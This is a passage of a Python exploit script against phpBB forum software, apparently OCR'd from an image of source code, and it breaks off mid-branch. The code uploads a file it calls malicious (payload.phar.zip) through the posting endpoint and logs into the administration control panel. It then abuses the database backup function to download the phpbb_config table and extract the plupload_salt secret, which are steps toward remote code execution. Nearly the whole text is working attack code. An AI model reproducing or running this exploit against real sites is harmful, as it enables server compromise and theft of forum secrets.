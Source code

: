         }
        data = {
            'name': upfilename,
            'chunk': 0,
            'chunks': 3,
            'add_file': 'Add the file',
            'real_filename': 'payload.phar.zip'
        }
        rs = r.post(target + '/posting.php?mode=post&f=2&sid=' + sid, files=file, data=data)
        if 'jsonrpc' not in rs.text:
            exit('Upload fail')
        else:
            print('Uploading malicious file successfully')

        Admin_Control = target + '/adm/index.php?sid=' + sid
        print("Get Administration Control Panel URL ：" + Admin_Control)

        rs = r.get(Admin_Control)
        html = rs.text
        soup = BeautifulSoup(html, "html.parser")
        input = soup.find('input', attrs={'type': 'password'})
        passwd_id = input['id']
        credential = soup.find('input', attrs={'name': 'credential'})
        credential = credential['value']
        data = {
            'username': admin_account,
            passwd_id: admin_pwd,
            'login': 'Login',
            'redirect': './../adm/index.php',
            'credential': credential
        }
        rs = r.post(target + '/adm/index.php?sid=' + sid, data=data)
        html = rs.text
        if '<title>ACP index</title>' in html:
            print('Administration Control Panel login successful')

        soup = BeautifulSoup(html, "html.parser")
        div = soup.find('div', attrs={'id': 'page-header'})
        sid = div.a['href'][-32:]

        rs = r.get(target + '/adm/index.php?i=acp_database&mode=backup&sid=' + sid)
        html = rs.text
        soup = BeautifulSoup(html, "html.parser")
        input = soup.find('input', attrs={'name': 'form_token'})
        form_token = input['value']
        input = soup.find('input', attrs={'name': 'creation_time'})
        creation_time = input['value']

        data = "type=data&method=text&where=download&table%5B%5D=phpbb_config&submit=Submit&creation_time={creation_time}&form_token={form_token}".format(
            creation_time=creation_time, form_token=form_token)
        rs = r.post(target + '/adm/index.php?i=acp_database&mode=backup&action=download&sid=' + sid, data=data,
                    headers={"Content-Type": "application/x-www-form-urlencoded", "Connection": "close",
                             "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3"})
        html = rs.text
        if 'phpBB Backup Script' in html:
            print('Database download succeeded')
            matchObj = re.search(r"\('plupload_salt', '(.*?)', 0\)", html, re.M | re.I)
            if matchObj:
                plupload_salt = matchObj.group(1)
                print('Get the plupload_salt successfully ：{plupload_salt}'.format(plupload_salt=plupload_salt))
            else:
                exit('Get the plupload_salt failed')
        else:
